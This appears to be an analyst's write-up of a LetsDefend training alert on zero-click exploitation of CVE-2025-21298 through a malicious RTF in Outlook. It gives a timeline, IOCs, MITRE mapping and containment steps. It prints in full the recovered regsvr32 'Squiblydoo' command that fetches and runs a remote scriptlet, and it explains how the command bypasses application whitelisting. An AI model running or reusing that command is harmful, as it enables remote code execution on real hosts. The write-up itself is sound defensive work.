









# SOC336 — Windows OLE Zero-Click RCE Exploitation Detected (CVE-2025-21298)

**Platform:** LetsDefend
**Alert ID:** SOC336
**Severity:** Critical
**Category:** Malware

---

## About CVE-2025-21298

CVE-2025-21298 is a **critical (CVSS 9.8), zero-click remote code execution vulnerability** in Windows OLE (Object Linking and Embedding), the technology that allows content to be embedded/linked between documents and applications. The flaw is a **double-free memory corruption bug** in `ole32.dll`, specifically in the `UtOlePresStmToContentsStm` function, which processes OLE presentation data when a document is rendered.

What makes it especially dangerous: exploitation requires **no user interaction beyond receiving and previewing the email**. Simply opening or previewing a specially crafted RTF file in Microsoft Outlook — without clicking any link, enabling macros, or opening an attachment separately — is enough to trigger the vulnerability and achieve arbitrary code execution. This is distinct from most phishing-based attacks (including SOC338/Lumma Stealer), which still require the user to click something.

---

## 1. Alert Summary

User **Austin (Austin@letsdefend.io)** received a phishing email with a password-protected, weaponized RTF attachment (`mail.rtf`) exploiting CVE-2025-21298. Simply previewing the email in Outlook triggered the exploit, causing Outlook itself to spawn a command shell. The attacker then used the **regsvr32 "Squiblydoo"** technique to fetch and execute a remote script, establishing communication with attacker infrastructure identified as **Sliver C2**.

| Field | Value |
|---|---|
| EventID | 314 |
| Alert Time | Feb 04, 2025, 04:18 PM |
| Affected User / Host | Austin — DESKTOP-USER\Austin |
| Sender | projectmanagement@pm.me |
| SMTP Source IP | 84.38.130.118 |
| Subject | "Important: Action Required for Upcoming Project Deadline" |
| Attachment | mail.rtf (password: infected) |
| Attachment Hash (SHA256) | df993d037cdb77a435d6993a37e7750dbbb16b2df64916499845b56aa9194184 |
| Device Action | Allowed |


*SIEM alert detail — SOC336, EventID 314, "Windows OLE Zero-Click RCE Exploitation Detected (CVE-2025-21298)." Trigger reason: malicious RTF attachment identified with known CVE-2025-21298 exploit pattern.*

---

## 2. Investigation Timeline

| Time | Event |
|---|---|
| 05:12 AM | Phishing email delivered from projectmanagement@pm.me to Austin, with password-protected mail.rtf attached |
| 08:05:15 AM | Exploit triggers on preview — OUTLOOK.EXE spawns cmd.exe directly (CVE-2025-21298 successful exploitation) |
| 08:06:08 AM | cmd.exe executes the regsvr32/Squiblydoo command targeting a remote scriptlet |
| 08:06:08 AM | Firewall log confirms GET request to http://84.38.130.118.com/shell.sct, Permitted |
| 08:06:25 AM | regsvr32.exe executes directly, confirming the scriptlet fetch/execution completed |

**Dwell time (email delivery → exploit trigger):** ~2 hours 53 minutes. **Full exploitation chain (initial code execution to confirmed C2 script retrieval):** approximately 70 seconds.

---

## 3. Investigation Steps

### 3.1 Phishing Email and Weaponized Attachment

*"Important: Action Required for Upcoming Project Deadline" — impersonates a project management notification, with password-protected attachment mail.rtf (password: infected) provided directly in the email body.*

**Finding — password protection as evasion:** As with the ClickFix/Lumma Stealer case (SOC338), the attachment is password-protected. This prevents email-gateway attachment scanners from inspecting the file's internal structure in transit, since the malicious OLE content is not visible without the password needed to open it.

### 3.2 Exploit Trigger — Zero-Click Execution via Outlook

*08:05:15 AM — OUTLOOK.EXE (parent: explorer.exe, user: DESKTOP-USER\Austin) directly spawns cmd.exe as its target process.*

**This is the exploit firing.** Outlook itself — not a user double-clicking the attachment — is the process launching a command shell. This is the defining characteristic of a zero-click exploit: the malformed OLE content inside the RTF corrupts memory during Outlook's rendering/preview process, and the attacker leverages that corruption to redirect execution into spawning `cmd.exe`, rather than simply crashing the application.

### 3.3 Second-Stage Execution — The Regsvr32 "Squiblydoo" Technique

*08:06:08 AM — cmd.exe (PID 6784, parent: OUTLOOK.EXE) executes a regsvr32 command.*

Full command line recovered:

```
"C:\Windows\System32\cmd.exe" /c regsvr32.exe /s /u /i:http://84.38.130.118.com/shell.sct scrobj.dll
```

**Technique identified: Regsvr32 "Squiblydoo" (MITRE T1218.010 — System Binary Proxy Execution: Regsvr32).**

Breaking down the command:
- `regsvr32.exe` — a legitimate, Microsoft-signed Windows utility normally used to register/unregister DLLs and ActiveX/COM controls. Because it is trusted and signed, it is frequently permitted by default under application-whitelisting solutions such as AppLocker.
- `/i:http://84.38.130.118.com/shell.sct` — the `/i:` flag instructs regsvr32 to fetch a **remote file** and pass it to the DLL's install routine. Here, that file is `shell.sct`, a COM **scriptlet** (an XML wrapper containing embedded JScript/VBScript).
- `scrobj.dll` — the Windows Script Component runtime, itself a signed Microsoft binary, which parses and executes the fetched scriptlet's embedded script code.
- `/s` — silent execution (no popups). `/u` — runs in "unregister" mode, a further evasion nuance that still triggers script execution while appearing less suspicious than a normal DLL install.

**Why this matters:** the actual malicious script code runs entirely proxied through two trusted, Microsoft-signed binaries (`regsvr32.exe` and `scrobj.dll`). Application-whitelisting tools typically only evaluate which *binary* is executing (regsvr32.exe — allowed) and do not inspect the content of the remote `.sct` file it fetches, since `.sct` is not a file type covered by default AppLocker rules. This makes it an effective and well-documented method for bypassing whitelisting controls while delivering arbitrary attacker script code.

### 3.4 Confirmation — C2 Communication Successful

*Firewall log — cmd.exe (PID 6784) made a GET request to http://84.38.130.118.com/shell.sct, Device Action: Permitted.*


*08:06:25 AM — regsvr32.exe (PID 7023, parent: cmd.exe) executes directly with the same command, confirming the scriptlet was successfully fetched and processed.*

The successful, permitted GET request confirms the second stage of the attack completed: the remote scriptlet was retrieved from attacker infrastructure and executed via `scrobj.dll`, meaning arbitrary attacker-controlled script code ran on Austin's host.

### 3.5 Threat Intelligence Enrichment

**C2/hosting IP:**

*VirusTotal — 84.38.130.118 (AS52048, SIA RixHost, Latvia) flagged malicious by 10/91 vendors. Crowdsourced context: "Activity related to SLIVER" (source: Cluster25) — this IPv4 is used as a CnC by Sliver, a command-and-control framework built for penetration testers, red teams, and advanced persistent threats, supporting DNS, TCP, and HTTP(S) callback protocols.*

**Finding — attacker infrastructure type:** This IP is not merely a generic malicious host — it is specifically identified as infrastructure for **Sliver**, a full-featured, interactive C2 framework. This is a materially more serious classification than a simple dropper/hosting IP: it implies the attacker has (or had) the capability for live, interactive command-and-control over the compromised host — including additional payload delivery, further command execution, and data exfiltration — not just a one-shot automated infection.

**Attachment hash:**

*VirusTotal — mail.rtf flagged malicious by 28/62 vendors. Popular threat label: trojan.expl/rtfmalformb. Tags include cve-2025-21298, cve-2017-11882, calls-wmi, detect-debug-environment, html-control.*

**Finding — possible dual-CVE targeting:** In addition to CVE-2025-21298, the file is also tagged for **CVE-2017-11882** (a separate, older Microsoft Office Equation Editor memory-corruption RCE). Malicious RTF builders sometimes bundle exploit code for multiple vulnerabilities in a single file to maximize compatibility across both patched and unpatched target systems — this file may be designed to fall back to the older exploit if CVE-2025-21298 is unavailable (e.g., on a patched system), or to increase reliability across varied Windows/Office versions.

---

## 4. MITRE ATT&CK Mapping

| Tactic | Technique |
|---|---|
| Initial Access | T1566.001 – Phishing: Spearphishing Attachment |
| Execution | T1203 – Exploitation for Client Execution (CVE-2025-21298) |
| Execution | T1218.010 – System Binary Proxy Execution: Regsvr32 ("Squiblydoo") |
| Defense Evasion | T1027 – Obfuscated Files or Information (password-protected attachment) |
| Defense Evasion | T1218.010 – Signed Binary Proxy Execution (application-whitelisting bypass) |
| Command and Control | T1071 – Application Layer Protocol (Sliver C2 callback) |

---

## 5. Indicators of Compromise (IOC)

1. Phishing sender `projectmanagement@pm.me`, SMTP source IP `84.38.130.118` — also identified as Sliver C2 infrastructure.
2. Malicious attachment `mail.rtf`, SHA256 `df993d037cdb77a435d6993a37e7750dbbb16b2df64916499845b56aa9194184` — exploits CVE-2025-21298 (and possibly CVE-2017-11882).
3. Remote scriptlet URL `http://84.38.130.118.com/shell.sct`.
4. Process chain: `OUTLOOK.EXE → cmd.exe → regsvr32.exe (loading scrobj.dll)`.
5. Regsvr32 "Squiblydoo" command pattern: `regsvr32.exe /s /u /i:<URL> scrobj.dll`.

---

## 6. Verdict

> **True Positive — Confirmed successful zero-click RCE exploitation of CVE-2025-21298, followed by regsvr32-based second-stage execution and confirmed C2 communication.**

**Reasoning:**
- OUTLOOK.EXE directly spawning cmd.exe, with no preceding user click on the attachment, is direct evidence of successful zero-click exploitation.
- The subsequent regsvr32/Squiblydoo command and its successful, permitted execution (confirmed via firewall GET request and the standalone regsvr32.exe process log) demonstrate that the second-stage remote script was fetched and run.
- The C2 IP is independently attributed to Sliver, an interactive C2 framework — indicating the attacker had established a functional command-and-control channel, not merely delivered a static payload.
- The attachment hash is independently confirmed malicious by 28/62 vendors and explicitly tagged for the relevant CVE.

Given confirmed zero-click RCE, successful proxy-execution of attacker script code, and identified interactive C2 infrastructure, **the host and the Austin user account must be considered fully compromised.**

---

## 7. Containment & Recommendations

- [ ] Isolate Austin's host from the network immediately — this is a no-click attack, so no further user action is required for continued compromise or attacker activity.
- [ ] Kill any active `cmd.exe`, `regsvr32.exe`, or related processes on the host.
- [ ] Disable and force a credential reset for the Austin user account in Active Directory; treat all locally stored credentials as compromised.
- [ ] Block IP `84.38.130.118` and sender domain `pm.me` at the firewall and email gateway.
- [ ] Block attachment hash `df993d037cdb77a435d6993a37e7750dbbb16b2df64916499845b56aa9194184` across EDR/AV.
- [ ] **Apply the Microsoft security patch for CVE-2025-21298 immediately** across all Windows/Outlook systems in the environment — this is the highest-priority remediation given confirmed active, zero-click exploitation.
- [ ] Investigate the retrieved `shell.sct` scriptlet content and any further payloads it may have delivered via the Sliver C2 channel.
- [ ] Restrict or monitor `regsvr32.exe` execution with remote `/i:` arguments via application control policy, given its role as a common LOLBin for whitelisting bypass.
- [ ] Escalate to the IR team for full forensic investigation, including checking for persistence mechanisms, lateral movement, and further C2 activity given the identified Sliver infrastructure.
- [ ] Search email logs for other recipients of the same phishing campaign (sender: projectmanagement@pm.me).

---

## 8. Closure

**Analyst Submission:** Malicious Activity Detected — Confirmed Zero-Click RCE
**Alert Playbook Followed:** Yes
**Escalated:** Yes — escalated to IR team given confirmed zero-click exploitation and identified interactive C2 (Sliver) infrastructure.

**Closure Note:**
> Austin received a phishing email with a password-protected, malicious RTF attachment exploiting CVE-2025-21298 (confirmed via VT, 28/62 vendors). Previewing the email in Outlook triggered zero-click RCE — OUTLOOK.EXE directly spawned cmd.exe, which executed a regsvr32 "Squiblydoo" command to fetch and run a remote scriptlet (shell.sct) from 84.38.130.118, infrastructure independently identified as Sliver C2. Firewall logs confirm the request succeeded. Verdict: True Positive — confirmed Critical, zero-click RCE with successful second-stage execution and C2 communication. Host and user account must be treated as fully compromised. Recommend immediate isolation, credential reset, IOC blocklisting, urgent CVE-2025-21298 patching, and full IR escalation.

---

## Key Takeaways (Lessons for Future Investigations)

- Zero-click exploits are identified by looking at *which process* spawns the malicious child process — a trusted application (Outlook, Word) directly launching a shell with no preceding user-click evidence is the signature of exploitation, not user error.
- Name attacker techniques precisely and by their recognized name (e.g., "Squiblydoo" / T1218.010) rather than describing them only functionally — this demonstrates recognition of known attack patterns, not just log-reading.
- When threat intel attributes an IP to a named C2 framework (Sliver, Cobalt Strike, Metasploit, etc.), treat that as materially more serious than a generic "malicious IP" finding — it implies interactive attacker capability, not just a static payload drop.
- Check file tags for multiple CVE references — a single malicious file may bundle exploits for more than one vulnerability to maximize success across differently-patched targets.
- Password-protected attachments are a recurring evasion pattern across multiple attack types (seen here and in the ClickFix/Lumma Stealer case) — worth flagging explicitly every time it appears rather than treating it as incidental.
